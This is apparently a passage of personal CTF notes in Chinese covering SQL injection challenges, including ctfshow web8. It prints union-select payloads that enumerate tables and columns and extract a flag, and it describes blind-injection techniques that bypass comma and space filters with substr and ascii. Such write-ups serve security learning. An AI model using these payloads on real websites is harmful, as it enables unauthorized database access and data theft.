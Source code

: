 那就注册个账号登进去看看

![image-20220523223340554](D:\Typora\note\CTF\web\challenge.assets\image-20220523223340554.png)

有一个填简介的框，输入`'`发现被转义了，貌似也没有其他办法绕过了

最后只能回归到注册框，因为在登录之后，后台会在数据库中查询该用户的简介，这里就有办法sql注入



![image-20220523224010665](D:\Typora\note\CTF\web\challenge.assets\image-20220523224010665.png)

登录后就发现了数据库

![image-20220523224115367](D:\Typora\note\CTF\web\challenge.assets\image-20220523224115367.png)

以此类推

```mysql
爆表
'union select table_name from information_schema.tables where table_schema='ctftraining'#
爆列名
'union select group_concat(column_name) from information_schema.columns where table_name='flag'#
爆flag
'union select flag from flag#
```

![image-20220523224539637](D:\Typora\note\CTF\web\challenge.assets\image-20220523224539637.png)



### [ctfshow]web8



![image-20220714204101311](D:\Typora\note\CTF\web\challenge.assets\image-20220714204101311.png)

随便点击一个文章

![image-20220714204128728](D:\Typora\note\CTF\web\challenge.assets\image-20220714204128728.png)

发现`?id=1`，可试试sql注入

![image-20220714204202901](D:\Typora\note\CTF\web\challenge.assets\image-20220714204202901.png)

成功。

下面随意fuzz一下，发现`, 空格`两个关键的被过滤了，然后除了文章没有其他回显

这时候就用到`substr`的另外一个用法

```sql
substr(database() from 1 for 1); #从一开始往后面的1个字符
```

其实不要`for 1`也可以`ascii`的一个特性

```sql
MariaDB [dvwa]> select ascii('dvwa');
+---------------+
| ascii('dvwa') |
+---------------+
|           100 |
+---------------+
1 row in set (0.000 sec)
```
